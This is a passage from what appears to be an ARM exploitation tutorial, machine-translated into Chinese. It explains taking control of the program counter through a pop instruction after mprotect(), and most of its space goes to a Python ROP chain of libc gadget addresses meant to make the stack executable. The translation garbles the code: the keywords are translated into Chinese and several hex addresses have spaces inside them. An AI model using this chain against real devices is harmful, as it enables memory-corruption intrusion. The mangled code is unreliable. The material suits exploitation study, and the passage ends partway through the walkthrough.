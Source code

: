 *电脑被零覆盖。那么这些零是从哪里来的？如果你看一下 r4 寄存器，它包含值 0x42424242 (BBBB)，这是我们放入漏洞的最后一个垃圾。*

*执行 mprotect()后，执行将分支到 **lr** 寄存器，因为它正在使用 **blx** 指令(分支链接和交换)。 **lr** 寄存器包含指令 pop {r4，r5，r6，pc}。*

*啊哈，所以这种流行是我们坠毁的原因。这个弹出操作从栈顶删除了四个元素，分别是 r4、r5、r6 和 pc。r4 之所以得到“BBBB”就是因为这个。所以为了控制 pc，我们需要再输入 2 个垃圾字符，然后输入下一条指令的地址*

*pop {
R4 = " BBBB "
r5 = " BBBB "
R6 = " BBBB "
PC =下一条指令
}*

*让我们修改漏洞*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += struct.pack(" < I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，0x b 6 f 41 e 90)# mprotect()address
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= " DDDD " # PC*
> 
> *打印(出口)*

*现在让我们再次使用 gdb 运行这个漏洞*
